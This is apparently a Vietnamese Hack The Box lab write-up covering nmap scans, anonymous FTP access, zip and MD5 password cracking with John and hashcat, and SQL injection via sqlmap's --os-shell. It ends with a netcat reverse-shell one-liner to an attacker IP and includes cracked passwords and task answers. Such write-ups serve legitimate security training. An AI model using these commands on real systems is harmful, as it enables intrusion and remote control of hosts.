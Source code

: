 ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5662756c-ae90-41ca-9fd1-6b2dc4de3824)

- Chạy nmap -sV -T4 quét các dịch vụ chạy trên máy chủ

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/fe21aece-cacf-4e33-9df8-38c1df972a5f)

* Task 1: Besides SSH and HTTP, what other service is hosted on this box?: ftp
- Ta cần thu thập thêm thông tin về dịch vụ chạy lệnh: nmap -sC -T4 "ip"

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/5eb0427b-97ac-44d2-8f8d-e39c4445e7db)

- Điều cần chú ý ở đây là FTP: giao thức truyền tệp qua mạng, hoạt động theo mô hình client-server
* Task 2: This service can be configured to allow login with any password for specific username. What is that username?:  Anonymous
- Tiến hành đăng nhập bằng username: anonymous.
- command: ftp anonymous@10.129.95.174

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1b95ed0e-7c6d-4f93-8c66-33286c1bcc04)

- Sử dụng lệnh ls để liệt kê thư mục, file. Ta thấy có 1 file là backup.zip. Sử dụng lệnh get để tải file xuống
*  Task 3: What is the name of the file downloaded over this service?: backup.zip

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/44b107cc-6c0a-49fc-9483-06bf3f3ab6e1)

- Tiến hành giải nén file, file có mật khẩu. Sử dụng john the ripper để crack mật khẩu.
- Task 4: What script comes with the John The Ripper toolset and generates a hash from a password protected zip archive in a format to allow for cracking attempts?: zip2john

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/be6c18c3-dfe3-47bd-b66a-46d8aa6b6f24)

- Crack không được, ta dùng wordlist để bẻ khóa (dùng wordlist rockyou.txt)

![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/e74ef254-78ba-4728-9eae-54320ebb52d1)

- lấy được password: 741852963
- Tiến hành giải nén file backup được 2 file là index.php và style.css
- Ta quan tâm đến file index.php
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/1a19ce53-dbad-4f3f-ad70-4bb1e0b322d6)

- Thấy được user là admin là mật khẩu là 1 mã hax: dùng tiếp john the ripper để crack.
- Chạy không ra => dùng hashcat 
- hashcat -m 0 -a 0 vaccine2.txt /usr/share/wordlists/rockyou.txt
- trong đó -m là hash mode 0 là md5, -a attack mode  0 | Straight
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/389030fd-416c-4c61-a0bc-badc488057f9)

- Task 5: What is the password for the admin user on the website?: qwerty789
- Đề bài ở đây là thực thi sql injection: sử dụng sql map.
- Tạo 1 file là new.req để lưu request.
- Dùng burpsuite bắt requets copy-> new.req
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/37a107c6-cce8-4340-8167-fcec10e9dc59)

- Sử dụng sqlmap -r new.req --os-shell
- Tham số -r là đọc request từ file new.req, tham số --os-shell để thực thi lệnh shell từ xa. 
- Task 6: What option can be passed to sqlmap to try to get command execution via the sql injection?: --os-shell
- ![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/c4679cf5-719d-4233-920c-2e0217587f6e)

- lệnh shell: (rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc 10.10.14.22 1234 >/tmp/f)
+ Sẽ tạo tệp fifo: tệp để truyền dữ liệu giữa các tiến trình: ip 10.10.14.22(ip của máy tấn công: ifconfig, tun0) cổng 1234 
+ Sau khi thực thi lệnh xong.
+ mở terminal chạy netcat để lắng nghe trên cổng 1234 
+ để shell hoạt động trơn tru vip pro hơn: 
      python3 -c 'import pty;pty.spawn("/bin/bash")'
      CTRL+Z
      stty raw -echo
      fg
      export TERM=xterm
![image](https://github.com/Pminh21/HTB_writeup/assets/169346714/4691fbcf-a4c7-412e-a7ce-77da3fb87460)

